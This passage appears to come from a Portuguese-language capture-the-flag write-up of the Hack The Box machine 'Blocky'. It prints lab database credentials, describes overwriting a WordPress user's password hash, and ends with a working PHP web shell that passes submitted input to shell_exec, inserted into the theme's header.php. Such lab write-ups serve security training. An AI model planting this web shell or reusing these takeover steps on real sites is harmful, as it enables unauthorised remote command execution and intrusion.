 #### Logamos com as credenciais do wordpress encontradas no wp-config.php

> wordpress:kWuvW2SYsABmzywYRdoD

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php3.png)

###### Navegando dentro do banco de dados, vamos até o o db wordpress, wp_users e mudaremos a senha do notch para podermos acessar o wordpress

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php4.png)

###### Como já é sabido, essa senha está em formato de hash, nós não temos a senha, então vamos gerar um hash de uma senha que sabemos para colocar aqui

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php5.png)

###### Alteramos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php7.png)

#### Agora vamos logar no wordpress com essa senha gerada

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php8.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php9.png)

#### Vamos em `Appearance` `Editor` `Theme Header - Header.php`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php10.png)

#### Adicionamos um Web Shell dentro do código, pra podermos ter RCE na máquina

```
<?php
echo "<form action='' method='post'>
   <input type='text' name='c' value='' size='60'/>
   <input type='submit' />
   </form>";
if (isset($_POST['c'])){
   if(function_exists('shell_exec')) {
   $c=$_POST['c'];
      echo "<pre>".shell_exec("$c")."</pre>";
   }
}
?>
```
